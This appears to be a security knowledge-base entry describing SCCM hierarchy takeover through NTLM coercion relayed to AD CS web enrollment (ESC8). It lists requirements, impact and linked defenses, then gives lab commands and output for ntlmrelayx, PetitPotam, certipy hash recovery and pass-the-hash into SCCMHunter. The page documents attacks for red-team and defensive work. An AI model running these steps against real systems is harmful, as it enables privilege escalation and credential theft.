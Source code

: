 # TAKEOVER-3

## Description
Hierarchy takeover via NTLM coercion and relay to HTTP on AD CS

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation
- [TA0008](https://attack.mitre.org/tactics/TA0008) - Lateral Movement

## Requirements
### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-3.1: Coerce primary site server
    - TAKEOVER-3.2: Coerce SMS Provider
    - TAKEOVER-3.3: Coerce passive site server
    - TAKEOVER-3.4: Coerce site database server
- Connectivity from the coercion target to SMB (TCP/445) on the relay server (or WebClient enabled and connectivity via any port)
- Coercion target settings:
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server
    - Domain computer account is not in `Protected Users`
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target

### Relay
- Connectivity from the relay server to HTTPS (TCP/443) on the relay target, the AD CS Certificate Authority
- Extended protection for authentication not required on the the certificate enrollment web interface
- An enabled AD CS template that allows enrollment and supports authentication 
- Relay target settings:
    - `RequireSecuritySignature` = `0` or not present
    - `RestrictReceivingNTLMTraffic` = `0` or not present
    - Coercion target is local admin (to access RPC/admin shares)
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target

When available, SCCM uses public key infrastructure (PKI) for authentication and authorization. While not required, administrators may choose to deploy Active Directory Certificate Services (AD CS) to support SCCM's [various certificate requirements](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/security/plan-for-certificates) rather than use self-signed certificates. AD CS is home to its own [misconfigurations](https://posts.specterops.io/certified-pre-owned-d95910965cd2); particularly ESC8. In short, the [certificate enrollment web interface](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831649(v=ws.11)) is vulnerable to NTLM relaying. An attacker may coerce NTLM authentication from a coercion target and relay to the AD CS enrollment web service to enroll in and acquire a valid certificate template on behalf of the target. The template can then be used to escalate to "Full Administrator" in SCCM by impersonating the coerced target.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-14: Require EPA on AD CS and site databases](../../../defense-techniques/PREVENT/PREVENT-14/prevent-14_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-3.1: Coerce primary site server
- TAKEOVER-3.2: Coerce SMS Provider
- TAKEOVER-3.3: Coerce passive site server
- TAKEOVER-3.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-3.1 through TAKEOVER-3.4 are the same except that a different system is targeted for coercion of NTLM authentication. The following example assumes the AD CS service has been previously enumerated and the web enrollment form is vulnerable to ESC8.

1. Use `SCCMHunter` to  profile SCCM infrastructure:

    ```
    [12:24:25 AM] INFO     [+] Finished profiling all discovered computers.                                   
    [12:24:25 AM] INFO     +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | Hostname                | SiteCode   | SigningStatus   | SiteServer   | ManagementPoint   | DistributionPoint   | SMSProvider   | WSUS   | MSSQL   |
                        +=========================+============+=================+==============+===================+=====================+===============+========+=========+
                        | provider.internal.lab   | None       | False           | False        | False             | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+
                        | sccm.internal.lab       | LAB        | False           | True         | True              | False               | True          | False  | False   |
                        +-------------------------+------------+-----------------+--------------+-------------------+---------------------+---------------+--------+---------+       
    ```

2. On the attacker relay server, start `ntlmrelayx`, targeting the URL of the certificate enrollment web interface on the certificate authority:

    ```
    └─# ntlmrelayx.py -t http://ca.internal.lab/certsrv/certfnsh.asp --adcs -smb2support
    Impacket v0.12.0.dev1+20240130.154745.97007e84 - Copyright 2023 Fortra

    [*] Protocol Client SMB loaded..
    [*] Protocol Client IMAPS loaded..
    [*] Protocol Client IMAP loaded..
    [*] Protocol Client RPC loaded..
    [*] Protocol Client DCSYNC loaded..
    [*] Protocol Client MSSQL loaded..
    [*] Protocol Client LDAPS loaded..
    [*] Protocol Client LDAP loaded..
    [*] Protocol Client SMTP loaded..
    [*] Protocol Client HTTPS loaded..
    [*] Protocol Client HTTP loaded..
    [*] Running in relay mode to single host
    [*] Setting up SMB Server
    [*] Setting up HTTP Server on port 80
    [*] Setting up WCF Server
    [*] Setting up RAW Server on port 6666

    [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the site server via SMB, targeting the relay server's IP address:

    ```
    ┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
    └─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd <NTLMRELAYX_LISTENER_IP> <SITE_SERVER_IP> 

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:10.10.100.121[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an SMB connection on the relay server that is forwarded to the AdminService on the SMS Provider to add a Full Administrator:

    ```
    [*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.9, attacking target http://ca.internal.lab
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against http://ca.internal.lab as LAB/SCCM$ SUCCEED
    [*] SMBD-Thread-7 (process_request_thread): Connection from 10.10.100.9 controlled, but there are no more targets left!
    [*] Generating CSR...
    [*] CSR generated!
    [*] Getting certificate...
    [*] GOT CERTIFICATE! ID 9
    [*] Base64 certificate of user SCCM$:
    MIIQ/QIBAzCCELcGCSqGSIb3DQEHAaCCEKgEghCkMIIQoDCCBtcGCSqGSIb3DQEHB.....
    ```

4. Use `certipy` to recover the coerced target's NT hash:

    ```
    └─# certipy auth -pfx sccm.pfx
    Certipy v4.8.2 - by Oliver Lyak (ly4k)

    [*] Using principal: sccm$@internal.lab
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'sccm.ccache'
    [*] Trying to retrieve NT hash for 'sccm$'
    [*] Got hash for 'sccm$@internal.lab': aad3b435b51404eeaad3b435b51404ee:075f745ec2daeb97c87b30d1d394f28b
    ```

5. Use `sccmhunter` to authenticate to the coerced target's own AdminService:

    ```
    └─# python3 sccmhunter.py admin -u sccm\$ -p aad3b435b51404eeaad3b435b51404ee:075f745ec2daeb97c87b30d1d394f28b -ip 10.10.100.9
    SCCMHunter v1.0.0 by @garrfoster
    [21:23:25] INFO     [!] Enter help for extra shell commands
    () C:\ >> show_admins
    [21:23:31] INFO     Tasked SCCM to list current SMS Admins.
    [21:23:31] INFO     Current Full Admin Users:
    [21:23:31] INFO     LAB\Administrator
    [21:23:31] INFO     LAB\lowpriv
    ```

## References
- Will Schroeder and Lee Chagolla-Christensen, [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- Oliver Lyak, [Certipy](https://github.com/ly4k/Certipy)
- Microsoft, [Plan for PKI certificates in Configuration Manager](https://learn.microsoft.com/en-us/mem/configmgr/core/plan-design/security/plan-for-certificates)